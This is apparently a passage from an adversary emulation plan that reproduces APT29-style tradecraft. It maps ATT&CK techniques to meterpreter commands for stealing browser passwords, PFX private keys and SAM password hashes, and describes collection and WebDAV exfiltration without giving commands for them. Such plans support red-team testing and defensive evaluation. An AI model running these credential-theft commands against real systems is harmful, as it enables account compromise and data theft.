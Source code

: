 ### Procedures

#### 6.A - Credentials from Password Stores: Credentials from Web Browsers ([T1003](https://attack.mitre.org/versions/v6/techniques/T1003/) / [T1555.003](https://attack.mitre.org/techniques/T1555/003/))

Execute chrome-password collector:

[meterpreter (PowerShell)\*] > `& "C:\Program Files\SysinternalsSuite\accesschk.exe"`

#### 6.B - Unsecured Credentials: Private Keys ([T1145](https://attack.mitre.org/versions/v6/techniques/T1145/) / [T1552.004](https://attack.mitre.org/techniques/T1552/004/))

Steal PFX certificate:

[meterpreter (PowerShell)\*] > `Get-PrivateKeys`

[meterpreter (PowerShell)\*] > `exit`

#### 6.C - OS Credential Dumping: Security Account Manager ([T1003](https://attack.mitre.org/versions/v6/techniques/T1003/) / [T1003.002](https://attack.mitre.org/techniques/T1003/002/))

Dump password hashes:

[meterpreter\*] > `run post/windows/gather/credentials/credential_collector`

### Cited Intelligence

* Open Invitation Contributors: Kaspersky, SentinelOne

* CosmicDuke’s information stealing functionality has included exporting user’s cryptographic certificates, including private keys, and collecting user credentials, including passwords from web browsers (ex: Google Chrome). CozyDuke has contained modules that can steal NTLM hashes as well as capture screenshots. <sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf), [2](https://blog-assets.f-secure.com/wp-content/uploads/2019/10/15163405/CosmicDuke.pdf) </sup>

---

## Step 7 - Collection and Exfiltration

The attacker collects screenshots ([T1113](https://attack.mitre.org/techniques/T1113/)), data from the user’s clipboard ([T1115](https://attack.mitre.org/techniques/T1115/)), and keystrokes ([T1056](https://attack.mitre.org/versions/v6/techniques/T1056/) / [T1056.001](https://attack.mitre.org/techniques/T1056/001/)). The attacker then collects files ([T1005](https://attack.mitre.org/techniques/T1005/)), which are compressed and encrypted ([T1560](https://attack.mitre.org/versions/v6/techniques/T1560/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/)), before being exfiltrated to an attacker-controlled WebDAV share ([T1048](https://attack.mitre.org/versions/v6/techniques/T1048/) / [T1048](https://attack.mitre.org/techniques/T1048/003)).

### Procedures
